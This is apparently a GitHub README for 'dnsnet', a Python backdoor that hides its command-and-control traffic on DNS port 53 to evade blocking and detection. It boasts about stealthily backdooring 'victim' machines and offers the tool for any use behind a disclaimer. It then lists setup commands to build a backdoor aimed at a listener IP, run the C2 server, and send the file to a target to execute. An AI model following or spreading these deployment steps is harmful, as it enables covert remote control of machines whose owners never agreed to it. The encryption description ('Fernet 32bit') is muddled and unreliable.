 # dnsnet (NEW VERSION COMING SOON, DO NOT DOWNLOAD THIS ONE)


# Current Version: BetaV1

# Logo:
![box](https://user-images.githubusercontent.com/72181445/155982020-2db1333f-74b7-4c3f-8178-f14a75a0a65d.png)

# Description:
DNSNET masks itself as DNS traffic by communicating through the port 53. On top of it making the traffic less easy to spot, 
it will make dealing with the backdoor alot harder since a company of course cannot block the port and good luck figuring 
out which one of the 999999999 programs that also use the 53 port is the right one. The traffic is also encrypted so that's nice I guess.

# Disclaimer:
Im not responsible for any damage or harm done by this program in the hands of other people.

# Where is this used?:
I originally started coding this because I wanted a sure way to stealth backdoor victim machine during a red team/pen test assesments however
you can use it however you want (I'm not responsible for your actions).

# Update log:
Alpha: 10 times encryption and stabile server end

AlphaV2: Automatic reconnect if connection is lost and manual reset added by pressing ctrl + c on the server end, cryptography import problems solved

BetaV1: Backdoor now remembers where you cd'ed to allowing much better file system exploring, overall small fixes to make the backdoor more stable and usable

# In development?: yes

# How to use (REPLACE "Listener ip" with the c2 ip):
```
git clone https://github.com/R00tendo/dnsnet
cd dnsnet
apt install unrar
unrar e cryptography.rar
pip3 install termcolor
python3 key_generator.py 5 > keys
python3 backdoor_generator.py <Listener ip>
python3 server.py
```
then send the backdoor python file to the target and execute it.
# Technical Details:
Encryption: Fernet 32bit encryption (that times the keys)
Program: Python3
  

